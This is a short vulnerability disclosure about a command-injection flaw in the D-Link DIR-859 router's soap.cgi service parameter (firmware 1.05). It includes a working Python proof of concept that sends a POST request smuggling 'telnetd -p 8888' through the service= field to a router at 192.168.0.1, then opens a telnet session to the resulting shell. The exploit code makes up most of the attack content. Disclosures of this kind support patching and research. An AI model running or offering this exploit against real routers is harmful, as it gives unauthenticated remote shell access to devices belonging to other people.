



## D-Link DIR-859 Command Execution Vulnerability

**Vender**: D-Link

**Firmware version**: DIR 859A1 1.05

**Exploit Author**: Insight

**Vendor Homepage**: [http](http://www.dlink.com.cn/): [//www.dlink.com.cn/](http://www.dlink.com.cn/)

## Detailed description

This vulnerability exists in the soapcgi_main function of the cgibin program. v11 is the content behind the request_uri environment variable service=, which has been filtered, but the filtering is not rigorous.



Format v11 to byte_434EF0, and execute system, resulting in command execution.



## POC

```python
from socket import *
from os import *
from time import *
 
request = b"POST /soap.cgi?service=&&telnetd -p 8888&& HTTP/1.1\r\n"
request += b"Host: localhost:49152\r\n"
request += b"Content-Type: text/xml\r\n"
request += b"Content-Length: 88\r\n"
request += b"SOAPAction: a#b\r\n\r\n"
 
s = socket(AF_INET, SOCK_STREAM)
s.connect((gethostbyname("192.168.0.1"), 49152))
s.send(request)
 
sleep(1)
system('telnet 192.168.0.1 8888')
```


